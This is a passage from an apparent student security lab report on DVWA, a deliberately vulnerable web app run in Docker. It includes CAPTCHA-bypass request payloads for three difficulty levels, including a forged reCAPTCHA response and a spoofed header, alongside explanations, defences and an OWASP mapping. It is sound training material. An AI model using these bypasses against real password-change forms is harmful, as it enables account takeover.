

Explanation:

The High security level attempts to restrict file inclusion by validating input. However, the validation does not properly block alternative file access methods such as the file:// protocol. This allows attackers to bypass the filter and access sensitive files.
---

# 3.14 Insecure CAPTCHA

## Security Level: Low
Payload Used:
```
step=2&password_new=test123&password_conf=test123&Change=Change
```
Result:
The password was successfully changed without solving the CAPTCHA challenge.

Screenshot:



Explanation:
At the Low security level, DVWA does not properly verify the CAPTCHA on the server side. The validation is performed only through client-side checks in the browser. Because of this, an attacker can intercept the request and submit it directly to the server without completing the CAPTCHA challenge. Since the server does not perform its own verification, the password change request is accepted.

## Security Level: Medium
Payload Used:
```
step=2&password_new=test123&password_conf=test123&passed_captcha=true&Change=Change
```
Result:
The password was successfully changed without solving the CAPTCHA correctly.

Screenshot:


Explanation:
At the Medium security level, DVWA introduces a parameter called passed_captcha to indicate whether the CAPTCHA was solved. However, this parameter is controlled by the client and is not securely validated by the server. By intercepting the request and manually setting passed_captcha=true, the attacker can bypass the CAPTCHA verification and change the password.

## Security Level: High
Payload Used:
```
step=2&password_new=test123&password_conf=test123&g-recaptcha-response=hidd3n_valu3&Change=Change
Modified Header

User-Agent: reCAPTCHA
```
Result:
The password was successfully changed without solving the CAPTCHA challenge.

Screenshot:


Explanation:
At the High security level, DVWA attempts to validate CAPTCHA using the g-recaptcha-response parameter. However, the application does not properly verify this response with the CAPTCHA verification service. By manually adding a fake g-recaptcha-response value and modifying the request header to mimic a reCAPTCHA request, the attacker can trick the application into assuming that the CAPTCHA verification was successful. Because of this, the password change request is accepted.

# 4. Docker Inspection Tasks

### Command
```bash
docker ps
```

### Output


### Command
```bash
docker inspect dvwa
```

### Output


### Command
```bash
docker logs dvwa
```

### Output


### Command
```bash
docker exec -it dvwa /bin/bash
ls /var/www/html
```

### Output


### Application File Location

Application files are stored in:

```
/var/www/html
```

This directory is the default web root used by the Apache web server inside the container.

### Backend Technology

DVWA uses the following backend technologies:

- **PHP** for server-side logic  
- **MySQL / MariaDB** for database management  
- **Apache** as the web server

### Docker Isolation

Docker runs DVWA inside a container that includes its own filesystem, dependencies, and runtime environment. This isolates the vulnerable application from the host system, allowing security testing without affecting the host operating system.

---

# 5. Security Analysis

### Why SQL Injection Succeeds at Low Security

At the Low security level, user input is directly inserted into SQL queries without validation or sanitization. Because the application dynamically constructs SQL queries, an attacker can modify the structure of the query and inject malicious SQL code.

### Control That Prevents It at High Security

The most effective protection is the use of **prepared statements (parameterized queries)**. These separate SQL commands from user input, ensuring that input is treated strictly as data rather than executable SQL code.

### Does HTTPS Prevent These Attacks?

No.  

HTTPS only encrypts data during transmission between the client and server. It does not protect against vulnerabilities such as SQL injection or cross-site scripting because these attacks exploit flaws in the application logic rather than the network communication.

### Risks if the Application Is Publicly Accessible

If the application were deployed publicly with such vulnerabilities, attackers could:

- Steal sensitive information from the database  
- Execute malicious scripts  
- Gain unauthorized access to the system  
- Modify or delete database records  
- Compromise user accounts

## OWASP Top 10 Mapping

| Vulnerability       | OWASP Category                                   |
|---------------------|--------------------------------------------------|
| Brute Force         | A07: Identification and Authentication Failures |
| SQL Injection       | A03: Injection                                   |
| Blind SQL Injection | A03: Injection                                   |
| Command Injection   | A03: Injection                                   |
| Reflected XSS       | A03: Injection                                   |
| DOM XSS             | A03: Injection                                   |
| Stored XSS          | A03: Injection                                   |
| JavaScript Attacks  | A05: Security Misconfiguration                   |
| File Upload         | A05: Security Misconfiguration / A03: Injection  |
| File Inclusion      | A03: Injection                                   |
| CSRF                | A01: Broken Access Control                       |
| Insecure CAPTCHA    | A04: Insecure Design                             |
| Weak Session IDs    | A07: Identification and Authentication Failures |
| CSP Bypass          | A05: Security Misconfiguration                   |


---

# 6. HTTPS Implementation (Bonus)

DVWA was deployed behind an Nginx reverse proxy with a self-signed SSL certificate.  
Nginx handled HTTPS connections and forwarded traffic to the DVWA container running on HTTP.

Testing showed that HTTP traffic exposed credentials in plain text, while HTTPS traffic encrypted the communication using TLS.

---
HTTP transmits data in plain text. When accessing DVWA through HTTP, sensitive information such as usernames and passwords can be viewed directly in the network traffic.

HTTPS encrypts communication using SSL/TLS. When accessing DVWA through HTTPS, the traffic is encrypted and cannot be easily read by attackers.

Observation:

HTTP request shows:
username=admin&password=password

HTTPS request shows encrypted TLS packets instead of readable data.
